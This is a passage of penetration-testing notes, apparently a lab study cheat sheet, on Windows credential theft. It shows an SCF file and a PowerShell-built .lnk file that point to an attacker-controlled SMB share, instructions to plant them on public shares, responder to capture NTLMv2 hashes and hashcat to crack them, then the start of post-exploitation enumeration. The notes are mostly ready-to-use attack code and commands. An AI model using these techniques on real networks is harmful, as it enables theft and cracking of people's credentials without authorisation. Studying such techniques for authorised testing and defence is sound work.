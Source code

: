             ```text
            [Shell]
            Command=2
            IconFile=\\10.10.13.14\share\legit.ico
            [Taskbar]
            Command=ToggleDesktop
            ```
        
        * move the SCF file to a Public folder on target, or any commonly accessed share - check all available shares from root of directory
        * on attacker, start ```responder``` and wait for victim to browse the share:

            ```sh
            sudo responder -I tun0
            # we will get hash once user browses the share

            # crack the NTLMv2 hash
            hashcat -m 5600 hash rockyou.txt
            ```
    
    * malicious '.lnk' file:

        * as SCFs do not work on newer hosts, we can generate a malicious '.lnk' file with [lnkbomb](https://github.com/dievus/lnkbomb)
        * we can also use PS scripting to generate a '.lnk' file:

            ```ps
            $objShell = New-Object -ComObject WScript.Shell
            $lnk = $objShell.CreateShortcut("C:\legit.lnk")
            $lnk.TargetPath = "\\<attackerIP>\@pwn.png"
            $lnk.WindowStyle = 1
            $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
            $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
            $lnk.HotKey = "Ctrl+Alt+O"
            $lnk.Save()
            ```

* Pillaging:

    * installed apps:

        ```cmd
        dir "C:\Program Files"
        # check contents of 'Program Files' and 'Program Files (x86)' to find installed apps
        ```

        ```ps
        # get installed apps via powershell and registry keys
        $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
